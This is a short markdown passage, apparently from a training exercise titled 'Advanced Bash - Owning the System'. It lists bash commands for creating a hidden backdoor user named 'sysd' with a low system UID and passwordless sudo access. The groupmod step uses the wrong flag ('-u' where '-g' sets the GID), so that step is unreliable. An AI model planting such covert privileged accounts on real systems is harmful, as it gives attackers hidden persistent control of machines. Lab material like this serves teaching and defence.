 # Advanced Bash - Owning the System

## Step 1: Shadow People
1.	Create a secret user named sysd. Make sure this user doesn't have a home folder created:
    • sudo useradd sysd

2.	Give your secret user a password:
    • sudo passwd sysd

3.	Give your secret user a system UID < 1000:
    • sudo usermod -u 400 sysd

4.	Give your secret user the same GID:
    • sudo groupmod -u 400 sysd

5.	Give your secret user full sudo access without the need for a password:
    • sudo visudo
    
![see photo](/images/picture1.png)